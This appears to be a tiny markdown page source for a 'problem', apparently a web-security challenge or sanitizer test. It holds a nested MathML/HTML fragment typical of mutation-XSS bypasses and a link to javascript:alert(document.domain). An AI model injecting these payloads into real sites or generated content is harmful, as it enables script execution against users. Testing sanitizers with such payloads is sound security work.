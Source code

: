 ```yaml
---
title: problem text
permalink: /problem
description: ""
---
```

<math><mtext><h1><a></a><h6><a></a></h6></h1></mtext></math>

\[XSS\](javascript:alert(document.domain))